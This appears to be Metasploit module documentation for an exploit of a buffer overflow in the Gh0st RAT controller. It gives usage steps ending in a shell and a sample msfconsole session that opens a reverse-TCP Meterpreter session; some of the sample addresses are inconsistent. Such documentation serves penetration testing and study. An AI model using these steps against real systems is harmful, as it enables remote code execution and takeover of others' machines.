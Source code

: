 ## Vulnerable Application

  This module exploits a buffer overflow in the Gh0st Controller when handling a drive list as received by a victim.
  This vulnerability can allow remote code execution in the context of the user who ran it.
  
  A vulnerable version of the software is available here: [gh0st 3.6](https://github.com/rapid7/metasploit-framework/files/1243297/0efd83a87d2f5359fae051517fdf4eed8972883507fbd3b5145c3757f085d14c.zip)

## Verification Steps

  1. Run the application
  2. Start msfconsole
  3. Do: `use exploit/windows/misc/gh0st`
  4. Do: `set rhost [ip]`
  5. Do: `exploit`
  6. Get a shell

## Options

  **MAGIC**
  
  This is the 5 character magic used by the server.  The default is `Gh0st`

## Scenarios

### Windows XP SP3 with gh0st 3.6

```
msf > use exploit/windows/misc/gh0st 
msf exploit(gh0st) > set rhost 192.168.2.108
rhost => 192.168.2.108
msf exploit(gh0st) > exploit

[*] Started reverse TCP handler on 1.2.3.4:4444 
[*] 1.2.3.1:80 - Trying target Gh0st Beta 3.6
[*] 1.2.3.1.108:80 - Spraying heap...
[*] 1.2.3.1:80 - Trying command 103...
[*] Sending stage (956991 bytes) to 1.2.3.1
[*] Meterpreter session 1 opened (1.2.3.4:4444 -> 1.2.3.1:1303) at 2017-08-26 16:53:58 -0400
[*] 1.2.3.1:80 - Server closed connection

meterpreter >
```
